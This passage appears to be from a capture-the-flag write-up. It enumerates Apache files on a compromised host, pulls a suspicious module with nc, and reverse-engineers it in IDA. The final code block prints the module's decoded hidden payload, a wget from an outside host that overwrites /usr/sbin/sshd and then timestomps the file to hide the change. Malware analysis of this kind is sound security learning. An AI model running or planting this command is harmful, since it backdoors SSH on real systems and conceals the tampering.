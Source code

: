 ```
will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin
```
{% endcode %}

Apache service is weird and there's a database basically. We can head to `/etc/apache2` to enumerate more. I was looking through the files and found a particualrly large file in `mods-available` that had the latest edit date:

```
steven@production:/etc/apache2/mods-available$ ls -lat
total 636
drwxr-xr-x 2 root root 12288 Feb  8  2022 .
drwxr-xr-x 8 root root  4096 Feb  8  2022 ..
-rw-r--r-- 1 root root 37616 Jul  5  2021 mod_reader.o
-rw-r--r-- 1 root root   565 Jul  5  2021 mpm_prefork.conf
<TRUNCATED>
```

The rest of the files were about 500 bytes, meanwhile this thing was massive. We can bring this back to our machine for analysis via `nc`.&#x20;

Then, using `ida64`, we see that there are base64 related functions for this:

<figure><img src="../../../.gitbook/assets/image (24) (9).png" alt=""><figcaption></figcaption></figure>

We can locate the string and see that it is being passed into another `bash -c` command:

<figure><img src="../../../.gitbook/assets/image (19) (8) (1).png" alt=""><figcaption></figcaption></figure>

When decoded, it shows this:

{% code overflow="wrap" %}
```bash
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
```
{% endcode %}
